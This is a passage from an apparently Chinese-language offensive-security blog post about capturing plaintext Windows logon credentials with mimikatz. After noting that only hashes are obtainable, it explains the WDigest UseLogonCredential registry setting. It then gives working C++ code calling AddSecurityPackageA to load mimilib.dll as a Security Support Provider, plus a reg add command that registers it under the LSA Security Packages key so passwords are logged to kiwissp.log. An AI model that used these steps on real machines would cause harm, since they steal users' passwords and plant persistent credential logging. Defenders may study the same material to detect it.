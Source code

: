 继续使用mimikatz抓取,命令同上，如图:<br><br>
![avatar](https://raw.githubusercontent.com/Fun0nydg/blogpic/main/2021-02-15/1-5.png)<br><br>
我们可以看到，这时wdigest的明文也无法获取，我们只有hash。<br><br> 

---
## 0x02 抓取wdigest明文
由于注册表项:  
**HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest**中的**UseLogonCredential**值为0，我们不能直接抓到wdigest明文，但我们可以用管理员权限将其设置为1，待重启之后，管理员重新登录，我们再用mimikatz便可以抓到wdigest明文，但这种方法并不是很好，如果没有**UseLogonCredential**，我们需要在注册表中额外添加，并且还需要重启服务器或者计算机，条件要求过于苛刻，故不采用此方法。  

---  
## 0x03 添加SSP获取明文凭据
### **1.什么是SSP**
参考：  
<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn751052(v=ws.11)>  

SSPI(Security Support Provider Interface),它是Windows身份验证的基础。那么SSP又是什么呢？文中这样说道
>The default Security Support Providers (SSPs) that invoke specific authentication protocols in Windows are incorporated into the SSPI as DLLs. These default SSPs are described in the following sections. Additional SSPs can be incorporated if they can operate with the SSPI.

也就是说SSP会调用特定的身份认证协议，它会作为DLL并入到SSPI中。简单的说，SSP可以作为DLL，并且跟Windows身份认证有关。  

### **2.添加SSP**
#### **2.1调用AddSecurityPackage**
刚才我们提到，SSP可以作为DLL,那么我们把mimikatz中的mimilib.dll作为SSP，便可以从lsass中提取明文。  
参考3gstudent的文章:  
<https://3gstudent.github.io/3gstudent.github.io/Mimikatz%E4%B8%ADSSP%E7%9A%84%E4%BD%BF%E7%94%A8/>  
文中提到了三种方法加载SSP，方法一需要重新启动，于是我们便不采用该方法；方法二中调用了AddSecurityPackage，同时我参考了国外的文章：  
<https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package>  
这里我们用文中提到的代码进行编译，我修改了dll路径为 c:\\windows\\system32\\mimilib.dll
```cpp
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#pragma comment(lib, "Secur32.lib")

int main()
{
	SECURITY_PACKAGE_OPTIONS spo = {};
	SECURITY_STATUS ss = AddSecurityPackageA((LPSTR)"c:\\windows\\system32\\mimilib.dll", &spo);
	return 0;
}
```
在visual studio中编译好之后，我们还需要做两个准备工作：
- 将mimilib.dll复制到c:\windows\system32目录下
- 修改注册表项，在powershell中执行
```powershell
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```
完成以上两个步骤之后，运行编译好的程序，之后等到用户锁屏重新登录，我们便可以在c:\windows\system32\kiwissp.log中查看到明文密码:<br><br>
![avatar](https://raw.githubusercontent.com/Fun0nydg/blogpic/main/2021-02-15/1-6.png)<br><br>
